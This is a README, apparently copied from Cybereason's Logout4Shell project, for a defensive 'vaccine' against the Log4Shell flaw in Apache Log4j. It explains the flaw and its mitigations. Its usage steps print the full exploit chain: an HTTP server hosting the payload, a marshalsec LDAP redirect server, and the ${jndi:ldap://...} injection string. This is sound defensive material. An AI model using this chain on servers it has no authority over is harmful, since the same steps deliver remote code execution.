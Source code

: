 [home](../README.md)


Copied from [Logout4Shell](https://github.com/Cybereason/Logout4Shell) on github.


    mvn clean install
    ./run.sh
    
    cd target/class
    run the webserver - python3 -m http.server 8888


# Original README.md


# Logout4Shell
![logo](https://github.com/Cybereason/Logout4Shell/raw/main/assets/CR_logo.png)

## Description 
A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Software made or managed by the Apache Software Foundation (From here on just "Apache") is pervasive and comprises nearly a third of all web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerabe servers.

While the best mitigation against this vulnerability is to patch log4j to
2.15.0 and above, in Log4j version (>=2.10) this behavior can be mitigated by
setting system property `log4j2.formatMsgNoLookups` to `true` or by removing
the JndiLookup class from the classpath. 
Additionally, if the server has Java runtimes >= 8u121, then by default, the
settings `com.sun.jndi.rmi.object.trustURLCodebase` and
`com.sun.jndi.cosnaming.object.trustURLCodebase` are set to “false”, mitigating this risk.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The [Cybereason](https://www.cybereason.com) research team has developed the
following code that _exploits_ the same vulnerability and the payload therein
forces the logger to reconfigure itself with the vulnerable setting disabled -
this effectively blocks any further attempt to exploit Log4Shell on this server

You can learn more [here](https://www.cybereason.com/blog/cybereason-releases-vaccine-to-prevent-exploitation-of-apache-log4shell-vulnerability-cve-2021-44228)

## How it works
The payload and exploit below use the java runtime to reconfigure the logger. 
Prior to reconfiguring the global setting
`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` is set to True, disabling message
format lookups and preventing further exploitation of this attack

## How to use

1. Download this report and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.ssh`

   1.2 build it - `mvn package`

   1.3 `cd target/class`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package -DskipTests`

   2.3 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE"`

3. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)


## DISCLAIMER: 
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis may contain bugs, errors and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Cybereason shall have no liability to you for any claims in
connection with the Code. Cybereason disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Cybereason or its related parties are advised of the possibility of
such damages. Cybereason undertakes no duty to update the Code or this
advisory.


## Credits
The initial repo and inspiration for this work is based on the work of [tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)


